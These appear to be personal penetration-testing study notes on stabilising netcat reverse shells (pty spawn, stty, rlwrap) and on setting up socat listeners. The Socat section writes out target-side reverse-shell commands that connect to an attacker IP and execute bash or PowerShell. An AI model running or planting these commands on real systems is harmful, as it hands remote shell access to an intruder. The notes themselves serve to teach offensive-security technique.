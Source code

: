 ### Stabilisation
These shells are very unstable by default, they are non-interactive and often have strange formatting errors, this is due to netcat 'shells' really being processes running inside a terminal, rather than being genuine terminals.
#### Python
1. The first thing to do is use `python3 -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes, `reset` when we finish to return to normal). It then foregrounds the shell, thus completing the process.
#### rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`  

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.



## Socat
Similar to [[Netcat]] in some ways, [[Socat]] is a connector between two points, as it provides a link between two points, whether they be  a listening port and a keyboard, a listening port and a file or two listening ports
### Reverse
The syntax for [[Socat]] gets more complicated than that of Netcat, for a reverse shell listener, the syntax is the following 
```sh
socat TCP-L:<port> -
``` 
 
This is taking two points (a listening port and standard input) and connecting them together. The resulting shell is unstable. (this is the equivalent to `nc -lnvp <port>`).

Then we can connect to the listener in the target machine with the following for a linux target

```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
Or the following on a windows target
```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
